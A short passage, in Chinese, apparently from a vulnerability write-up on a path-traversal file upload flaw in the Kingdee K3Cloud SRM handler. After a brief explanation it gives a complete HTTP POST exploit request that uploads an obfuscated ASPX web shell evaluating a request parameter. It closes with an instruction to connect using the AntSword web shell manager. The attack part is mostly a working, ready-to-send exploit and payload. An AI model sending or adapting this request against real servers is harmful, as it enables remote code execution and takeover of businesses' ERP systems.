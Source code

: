 最后就是文件上传，看到直接使用`+`进行拼接，并且未做重命名处理

可以利用`../`跨目录，并且由于 windows 上传特性，会删除最后一个点，即上传文件名可以为`../../../../uploadfiles/test.aspx.`

#### 漏洞利用

```bash
POST /K3Cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 192.168.111.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------606727559931226829481104
Content-Length: 610

----------------------------606727559931226829481104
Content-Disposition: form-data; name="dbId_v"

.
----------------------------606727559931226829481104
Content-Disposition: form-data; name="FID"

2024
----------------------------606727559931226829481104
Content-Disposition: form-data; name="file"; filename="../../../../uploadfiles/test.aspx."
Content-Type: text/plain

<% function EE82o3kp(){var GEPH="unsa",YACK="fe",CO0C=GEPH+YACK;return CO0C;}var PAY:String=Request["123"];~eval/*Za61vZ34F4*/(PAY,EE82o3kp());%><%@Page Language = JS%>
----------------------------606727559931226829481104--
```

蚁剑连接
